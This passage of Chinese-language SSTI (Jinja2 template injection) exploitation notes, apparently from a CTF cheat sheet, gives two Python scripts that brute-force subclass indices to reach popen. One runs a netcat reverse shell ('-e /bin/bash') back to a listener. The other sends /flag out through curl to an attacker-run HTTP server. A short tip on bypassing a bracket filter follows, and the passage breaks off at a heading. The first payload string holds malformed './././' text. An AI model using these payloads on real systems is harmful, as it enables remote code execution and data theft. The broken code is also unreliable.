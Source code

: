 # 6.无回显SSTI

## 1.反弹shell

192.168.204.149 监听7777端口

nc -lvp 7777

```python
import requests
url=input('请输入URL:')
for i in range(500):
     try:
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__['popen'](./././././././././././'netcat 192.168.1.161 7777 -e /bin/bash').read()}}"}
        response = requests.post(url,data=data)
    except:
        pass
```

## 2.带外注入

kali开启python监听

python3 -m http.server 80

```python
import requests
url=input('请输入URL:')
for i in range(500):
    try:
        data={"code":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__['popen'](./././././././././././'curl http://192.168.204.149/`cat /flag`').read()}}"}
        response = requests.post(url,data=data)
    except:
        pass
```

# 7.绕过中括号过滤

使用getitem函数  

```
__getitem__()=[]
```

# 8.绕过单双引号过滤&&args被过滤

## 1.request.args.cmd配合get提交
